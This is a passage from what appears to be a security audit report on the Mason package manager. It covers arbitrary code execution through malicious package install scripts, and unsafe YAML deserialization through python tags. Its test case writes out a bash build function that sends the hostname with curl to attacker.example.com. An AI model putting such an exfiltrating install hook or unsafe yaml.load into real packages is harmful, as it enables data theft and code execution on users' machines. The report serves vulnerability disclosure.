 - **Security Test Case:**
    1. Create a malicious package named `test-malicious` with version `1.0.0`.
    2. In the `scripts/test-malicious/1.0.0/script.sh` file, add the following malicious code to the `mason_compile` function:
    ```bash
    function mason_compile {
        mkdir -p ${MASON_PREFIX}/.trojan
        echo "Vulnerable to arbitrary code execution" > ${MASON_PREFIX}/.trojan/README.txt
        # Example command to exfiltrate data (replace with actual malicious action)
        curl -X POST -d "hostname=$(hostname)" https://attacker.example.com/exfiltrate
    }
    ```
    3. Create a dummy `.travis.yml` file in `scripts/test-malicious/1.0.0/.travis.yml`.
    4. Run `mason install test-malicious 1.0.0` on a test machine.
    5. Verify that the file `.trojan/README.txt` is created in the installation prefix (`./mason_packages/linux-x86_64/test-malicious/1.0.0/.trojan/README.txt` or similar) and that the `curl` command is executed (e.g., by monitoring network traffic or checking attacker's server logs).
    6. This test case demonstrates arbitrary code execution by a malicious package during installation.

### 2. Deserialization of Untrusted YAML leading to Arbitrary Code Execution

- **Description:**
    1. The `yaml.Loader` class in `loader.py` and `constructor.py` is used for parsing YAML files.
    2. The `Constructor` class in `constructor.py` includes constructors for Python-specific tags like `!!python/object`, `!!python/object/apply`, `!!python/object/new`, `!!python/name`, `!!python/module`.
    3. These Python-specific constructors allow for the instantiation of arbitrary Python objects and execution of arbitrary Python code when loading YAML files.
    4. An attacker can craft a malicious YAML file containing these tags.
    5. If Mason, or any application using this YAML library, loads this malicious YAML file using `yaml.load(file)`, it will execute the code embedded in the YAML, leading to arbitrary code execution.
    6. In the context of Mason, if a malicious actor can perform a man-in-the-middle attack and replace a legitimate package's YAML configuration file (if any) with a malicious one, or if a user is tricked into loading a malicious YAML file from an untrusted source, arbitrary code can be executed on the user's machine when Mason processes this YAML.

- **Impact:**
    - Arbitrary code execution on the user's machine with the privileges of the Mason process.
    - Full compromise of the user's system is possible if the Mason process runs with elevated privileges.
    - In the context of Mason, this could lead to malicious software installation, data theft, or further system exploitation.

- **Vulnerability Rank:** **Critical**

- **Currently Implemented Mitigations:**
    - None in the provided code. The `Loader` class is explicitly defined as the unsafe loader in contrast to `SafeLoader`.
